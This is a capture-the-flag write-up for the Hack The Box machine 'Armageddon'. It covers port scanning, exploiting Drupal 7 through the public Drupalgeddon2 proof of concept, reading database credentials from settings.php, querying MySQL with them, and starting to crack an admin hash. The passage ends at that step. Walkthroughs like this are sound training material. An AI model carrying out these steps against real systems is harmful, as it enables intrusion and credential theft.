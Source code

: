 # Armageddon
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c0898996-3c1f-46ef-a4dd-fcb8960b6b3f)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.233 --min-rate 1000       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 04:49 PDT
Nmap scan report for 10.10.10.233
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.15 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8338bf80-93a6-4b1e-a6fe-1f141d0fba93)


2. Noticed the webapp using **Drupal 7** CMS.

> DRUPAL 7 EXPLOIT DOCUMENTATION --> https://www.exploit-db.com/exploits/44449

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/70860b11-e9cc-4653-bab6-ebb1f17e8230)


3. Great! Based from the documentation and the chall's title. We seems in the correct approach.
4. Found a 2 github POCs we can use here.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f04f5a98-3fea-46d2-aa49-2a997e20f43e)


5. I used the most starred github repo --> https://github.com/dreadlocked/Drupalgeddon2
6. Let's clone the repo and run the ruby solver.

> RESULT - Got shell!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27058e5d-9011-424b-a860-03ac10c85aba)


7. Interesting! The shell we got is not fully interactive.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/00a017e8-1ef3-4dde-83a8-e9c6ea111ca3)


8. Did a small research about drupal. Turns out there should be a creds we can access at this path --> sites/default/settings.php

```
https://serverpilot.io/docs/where-to-find-your-database-credentials-in-drupal/
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dc3de778-0eed-4eca-a640-26be6196fe3f)



> RESULT

```
armageddon.htb>> ls sites/default/
default.settings.php
files
settings.php
armageddon.htb>> 
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4e347ec5-daba-4cf5-935e-7f48a66ea070)


9. Found a cred we can use to login to mysql --> drupaluser:CQHEy@9M*m23gBVj

> RESULT

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
Database
information_schema
drupal
mysql
performance_schema
armageddon.htb>>
```

10. Awesome! Let's see tables inside `Drupal` database.

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show tables;'
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
cache_form
cache_image
cache_menu
cache_page
cache_path
comment
date_format_locale
date_format_type
date_formats
field_config
field_config_instance
field_data_body
field_data_comment_body
field_data_field_image
field_data_field_tags
field_revision_body
field_revision_comment_body
field_revision_field_image
field_revision_field_tags
file_managed
file_usage
filter
filter_format
flood
history
image_effects
image_styles
menu_custom
menu_links
menu_router
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
armageddon.htb>>
```

11. Let's select all column from **users** table.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e2bb6db5-eda3-48a2-b0df-385862f37025)


12. Found a username that should be our interest --> **brucetherealadmin**. But the password is hashed.
13. Hmm.. Let's try to crack it using **hashcat**.

> CRACKING PASSWORD



